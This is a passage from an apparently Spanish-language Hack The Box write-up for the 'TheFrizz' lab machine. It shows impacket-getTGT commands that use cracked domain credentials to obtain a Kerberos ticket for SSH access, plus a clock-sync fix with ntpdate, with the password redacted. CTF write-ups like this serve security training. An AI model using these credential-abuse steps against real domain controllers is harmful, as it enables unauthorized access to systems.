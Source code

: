 ![alt text](/assets/img/posts/theFrizz-htb-s7/image-6.png)

## TGT para ssh

Probando estas credenciales en los servicios del DC encontramos que el protocolo ssh no es accesible mediante credenciales por lo que necesitamos pedir un TGT para ssh.

Usando impacket:

```bash
impacket-getTGT frizz.htb/f.frizzle:<cracked-password> -dc-ip 10.10.11.60
```

Probablemente no estemos sincronizados con el servidor por lo que tendremos el siguiente error:

```bash
❯ impacket-getTGT frizz.htb/f.frizzle:XXXXXXXXXXX -dc-ip 10.10.11.60
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Tenemos que sincronizar el tiempo con el servidor.

```bash
❯ sudo ntpdate -s 10.10.11.60

❯ impacket-getTGT frizz.htb/f.frizzle:XXXXXXXXXXX -dc-ip 10.10.11.60
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in f.frizzle.ccache
```

